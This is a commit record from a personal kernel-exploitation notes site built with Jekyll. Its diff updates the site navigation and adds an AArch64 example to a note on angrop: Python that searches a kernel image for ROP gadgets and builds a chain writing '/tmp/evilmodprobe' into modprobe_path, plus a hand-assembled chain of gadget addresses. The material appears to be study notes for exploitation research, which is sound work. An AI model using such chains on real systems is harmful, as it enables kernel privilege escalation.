

Before and after one commit to zoozoo-sec/zoozoo-sec.github.io, a Jekyll site: the page built from blogs/notes/kernel-exploitation/krop/ropbot-angrop.md, in a window 1280 px wide and 1400 px high, scrolled down 2166 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
kernel notes

````diff
--- a/_includes/kernel-notes-nav.html
+++ b/_includes/kernel-notes-nav.html
@@ -19,7 +19,7 @@
           <li><a href="{{ '/blogs/notes/kernel-exploitation/internals/mm/how-page-fault-is-handled/' | relative_url }}"{% if page.note_id == 'internals/mm/how-page-fault-is-handled' %} class="is-active"{% endif %}>How page fault is handled ?</a></li>
           <li><a href="{{ '/blogs/notes/kernel-exploitation/internals/mm/slub-allocator/' | relative_url }}"{% if page.note_id == 'internals/mm/slub-allocator' %} class="is-active"{% endif %}>Linux SLUB Allocator</a></li>
           <li><a href="{{ '/blogs/notes/kernel-exploitation/internals/mm/page-cache/' | relative_url }}"{% if page.note_id == 'internals/mm/page-cache' %} class="is-active"{% endif %}>Page Cache</a></li>
-          <li><a href="{{ '/blogs/notes/kernel-exploitation/internals/mm/what-if-a-process-could-mov-cr3-0xcafebabe/' | relative_url }}"{% if page.note_id == 'internals/mm/what-if-a-process-could-mov-cr3-0xcafebabe' %} class="is-active"{% endif %}>What if a process could "mov cr3, 0xcafebabe" ?</a></li>
+          <li><a href="{{ '/blogs/notes/kernel-exploitation/internals/mm/what-if-a-process-could-mov-cr3-0xdeadface/' | relative_url }}"{% if page.note_id == 'internals/mm/what-if-a-process-could-mov-cr3-0xdeadface' %} class="is-active"{% endif %}>What if a process could "mov cr3, 0xdeadface" ?</a></li>
         </ul>
       </li>
     </ul>
@@ -35,6 +35,7 @@
     </ul>
     <div class="notes-nav-group-title">KROP</div>
     <ul>
+      <li><a href="{{ '/blogs/notes/kernel-exploitation/krop/aarch-rop/' | relative_url }}"{% if page.note_id == 'krop/aarch-rop' %} class="is-active"{% endif %}>Aarch ROP</a></li>
       <li><a href="{{ '/blogs/notes/kernel-exploitation/krop/rop/' | relative_url }}"{% if page.note_id == 'krop/rop' %} class="is-active"{% endif %}>ROP</a></li>
       <li><a href="{{ '/blogs/notes/kernel-exploitation/krop/ropbot-angrop/' | relative_url }}"{% if page.note_id == 'krop/ropbot-angrop' %} class="is-active"{% endif %}>RopBot / Angrop</a></li>
     </ul>
--- a/blogs/notes/kernel-exploitation/krop/ropbot-angrop.md
+++ b/blogs/notes/kernel-exploitation/krop/ropbot-angrop.md
@@ -86,6 +86,48 @@ ffffffff82e44dee  sar     dh, cl
 ####### No way to find it manually ###########################
 ```
 
+
+
+- Aarch64 Example
+
+```python
+
+import angr
+import angrop  # noqa
+
+BINARY = "kernel.elf"
+CACHE = "gadgets.cache"
+
+
+proj = angr.Project(BINARY, auto_load_libs=False)
+rop = proj.analyses.ROP()
+
+#this takes a lot of time
+rop.find_gadgets(show_progress=True)
+
+rop.save_gadgets(CACHE)
+
+modprobe = 0xffff000000f139c8;
+chain = rop.chain_builder.write_to_mem(target,"/tmp/evilmodprobe")
+chain.print_payload_code()
+
+
+##########
+chain = b""
+# ldp x20, x19,[sp, #0x10]; mov x0, x8; ldp x29, x30, [sp], #0x20; autiasp ; ret
+chain += p64(0xffff8000800cc588)
+chain += p64(0x0)
+# str w20, [x19,#0x6c]; ldp x20, x19, [sp, #0x10]; ldp x29, x30, [sp], #0x20; autiasp ; ret
+chain += p64(0xffff8000804f3c88)
+chain += p64(0x2f706d74)
+chain += p64(0xffff000000f1395d)
+chain += p64(0x0)
+chain += p64(0x0)
+chain += p64(0x0)
+chain += p64(0x0)
+##############
+```
+
 </div>
 
 </div>
````
Also changed, not shown: blogs/notes/kernel-exploitation/index.md (+2 -1 lines), blogs/notes/kernel-exploitation/internals/mm/what-if-a-process-could-mov-cr3-0xdeadface.md (added, +31 -0 lines), blogs/notes/kernel-exploitation/krop/aarch-rop.md (added, +147 -0 lines), blogs/notes/kernel-exploitation/misc/misc.md (+26 -3 lines), blogs/notes/kernel-exploitation/targets/modprobe-path.md (+29 -0 lines), blogs/notes/kernel-exploitation/search-data.js.
